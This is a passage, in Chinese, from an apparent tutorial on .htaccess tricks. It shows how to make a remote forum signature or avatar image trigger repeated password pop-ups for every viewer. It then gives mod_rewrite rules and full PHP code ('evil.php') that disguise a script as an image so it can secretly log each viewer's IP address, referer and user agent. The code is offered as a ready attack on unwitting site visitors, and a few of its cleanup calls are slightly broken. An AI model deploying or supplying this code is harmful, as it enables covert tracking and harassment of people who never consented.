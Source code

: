 `username:encryptedPass`  

在这个实例中的用户名需要匹配你添加到你的.htaccess文件的用户名。至于加密的密码，这是通过PHP的crypt（）函数生成的。如果您不想使用PHP，则还可以使用联机生成器来加密.htpasswd文件中的密码值。  
 
然后你可以在论坛上设置路径为lol.jpg作为你的签名，每次有人查看你的线程，或者每当你在一个线程中发帖时，都会在屏幕上反复弹出，提示输入用户名/ 密码，可以让人非常讨厌。 当然这里也不一定是一个论坛。 如果你在任何形式的网站上有自定义头像或个人资料图片的选项，那么您也可以使用这种方法（假设它允许您从远程URL设置您的个人资料图像，而不仅仅是通过文件上传 形式） 。  

任何浏览器渲染你的图像后，将被密码提示框反复弹窗。 这种利用方式可以用于像论坛签名，个人资料头像，或几乎所有的带图像上传功能，允许用户从远程URL抓取图像的网站。  


### 不与用户交互的情况下识别浏览器指纹和记录IP地址 

这种方法也是利用重定向的技巧，它可以让你在用户不知情的情况下跟踪人们的IP地址（或者通过执行PHP代码来完成任何你可以做的事情）。这将允许您以隐身方式执行浏览器指纹识别，通常目标完全发现不了。  
 
这个例子又是一个简单的mod重写，唯一的区别是我们在这里重定向到一个PHP文件，而不是密码保护目录：  
```
Options +FollowSymlinks
RewriteEngine on
RewriteRule lol.jpg /path/to/evil.php [NC]
```
假设攻击者在其服务器上有两个文件，lol.jpg是一个完全无害的图像文件，evil.php是一个用于信息收集的PHP脚本。  
 
现在，这里的利用思路是欺骗服务器认为已经包含了有效的图像。从服务器的角度来看，它向图片文件发出请求。当它重定向到PHP脚本时，没有看到有效的图像，所以服务器通常不会在页面上包含图像（所以不会执行PHP）。  
 
然而，我们可以使用PHP动态图像欺骗服务器，让服务器认为它包括lol.jpg而不是邪恶.php - 我们可以让PHP脚本输出一个图像，它也会运行任何恶意代码（在这个例子中是记录IP地址）。这可以通过imagecreate（）函数来实现，这里是一个例子：  
``` php
<?php
$log = 'log.htm';
$ip = $_SERVER['REMOTE_ADDR'];
$page = $_SERVER['REQUEST_URI'];
$refer = $_SERVER['HTTP_REFERER'];
$date_time = date("l j F Y  g:ia", time() - date("Z")) ;
$agent = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen("log.htm", "a");
    fputs($fp, "<b>$date_time</b><br>
                <b>IP: </b>$ip<br>
                <b>Page: </b>$page<br>
                <b>Refer: </b>$refer<br>
                <b>Useragent:</b>$agent <br><br>");
    flock($fp, 3);
    fclose($fp);
    $my_img = imagecreate( 200, 80 );
    $background = imagecolorallocate( $my_img, 255, 0, 255 );
    $text_colour = imagecolorallocate( $my_img, 200, 200, 0 );
    $line_colour = imagecolorallocate( $my_img, 128, 255, 0 );
 
    imagestring( $my_img, 4, 30, 25, "Totally an innocent image", $text_colour );
    imagesetthickness ( $my_img, 5 );
    imageline( $my_img, 30, 45, 165, 45, $line_colour );
    header( "Content-type: image/png" );
    imagepng( $my_img );
    imagecolordeallocate( $line_color );
    imagecolordeallocate( $text_color );
    imagecolordeallocate( $background );
    imagedestroy( $my_img );
?>
```
